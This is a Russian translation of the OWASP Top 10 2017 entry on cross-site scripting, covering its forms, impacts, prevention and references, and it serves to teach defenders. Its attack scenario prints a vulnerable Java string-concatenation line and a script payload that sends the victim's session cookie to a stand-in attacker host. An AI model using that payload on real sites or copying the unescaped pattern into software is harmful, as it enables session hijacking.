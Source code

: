 # A7:2017 Межсайтовое выполнение сценариев (XSS)

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Уровень доступа Lvl : Уязвимости 3 | Распространённость 3 : Обнаруживаемость 3 | Технический 2 : Бизнес |
| Автоматизированные инструменты могут обнаруживать и использовать все три формы XSS, также существуют свободно доступные схемы использования.  | XSS является второй наиболее распространенной проблемой в топ-10 OWASP и находится примерно в двух третях всех приложений. Автоматизированные инструменты могут обнаруживать некоторые проблемы XSS автоматически, особенно в таких зрелых технологиях, как PHP, J2EE / JSP и ASP.NET. | Воздействие XSS является умеренным для отраженных и DOM XSS и серьезным для сохраненного XSS, с удаленным выполнением кода в браузере жертвы, таким как кража учетных данных, сеансов или предоставление вредоносного ПО жертве. |

## Является ли приложение уязвимым?

Существуют три формы XSS, обычно ориентированные на браузеры пользователей:

* **Отражённый XSS**: Приложение или API включает в себя непроверенный и неэкранированный пользовательский ввод как часть вывода HTML. Успешная атака может позволить злоумышленнику выполнить произвольный HTML и JavaScript в браузере жертвы. Как правило, пользователю необходимо взаимодействовать с какой-либо вредоносной ссылкой, которая указывает на страницу, контролируемую атакующем, например, сайты вредоносных веб-сайтов, рекламу и т.д.
* **Сохранённый XSS**: Приложение или API хранит нечистый пользовательский ввод, который позже рассматривается другим пользователем или администратором. Хранимый XSS часто считается высоким или критическим риском.
* **DOM XSS**: JavaScript фреймворки, одностраничные приложения и API-интерфейсы, которые динамически включают данные, управляемые злоумышленниками, на страницу, уязвимы для DOM XSS. В идеале приложение не отправляет данные, управляемые атакующим, в небезопасные API JavaScript.

Типичные атаки XSS включают в себя кражу сеанса, захват учетной записи, обход MFA, замену или повреждение узла DOM (например, панели входа в систему), атаки на браузер пользователя, такие как загрузка вредоносного программного обеспечения, ведение журнала ключей и другие атаки на стороне клиента.

## Как предотвратить?

Предотвращение XSS требует разделения ненадежных данных из активного содержимого браузера. Этого можно достичь следующим образом:

* Использование фреймворков, которые автоматически выходят из XSS по дизайну, такие как новейшие Ruby on Rails, React JS. Изучите ограничения защиты XSS каждой инфраструктуры и надлежащим образом обработайте случаи использования, которые не охвачены.
* Выделение ненадежных данных HTTP-запроса на основе контекста в выходном файле HTML (тело, атрибут, JavaScript, CSS или URL-адрес) позволит устранить уязвимые и сохраненные уязвимости XSS. В [OWASP  Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) содержится подробная информация о методах экранирования требуемых данных.
* Применение контекстно-зависимой кодировки при изменении документа браузера на стороне клиента действует против DOM XSS. Когда этого избежать нельзя, аналогичные методы чувствительности к контекстно-зависимым методам могут применяться к API-интерфейсам браузеров, как описано в OWASP Шпаргалка «Профилактика XSS, основанная на DOM».
* Включение [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) в качестве глубокой защиты элемента управления XSS. Он эффективен, если не существует других уязвимостей, позволяющих размещать вредоносный код через локальный файл (например, переходы по пути переписываются или уязвимые библиотеки из разрешенных сетей доставки контента).

## Пример сценария атаки

**Сценарий #1**: Приложение использует ненадежные данные при построении следующего фрагмента HTML без проверки или экранирования:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
Злоумышленник изменяет параметр «CC» в браузере, чтобы:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Эта атака приводит к тому, что идентификатор сеанса жертвы отправляется на сайт злоумышленника, позволяя злоумышленнику захватить текущий сеанс пользователя.

**Примечание**: Атакующие могут использовать XSS, чтобы победить любую автоматическую защиту от перекрестных запросов (CSRF), которую может применить приложение.

## Рекомендации

### OWASP

* [OWASP Проактивные элементы управления: кодирование данных](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Проактивные элементы управления: проверка данных](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Стандарт проверки безопасности приложения: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Руководство по тестированию: тестирование для отраженного XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Руководство по тестированию: тестирование сохраненного XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Руководство по тестированию: тестирование для DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Шпаргалка: Профилактика XSS](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Шпаргалка: Профилактика XSS основанная на DOM](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Шпаргалка: Уклонение от фильтра XSS](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Проект Java Encoder](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Сторонние

* [CWE-79: Неправильная нейтрализация вводимого пользователем ввода](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Внедрение шаблона на клиентской стороне](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
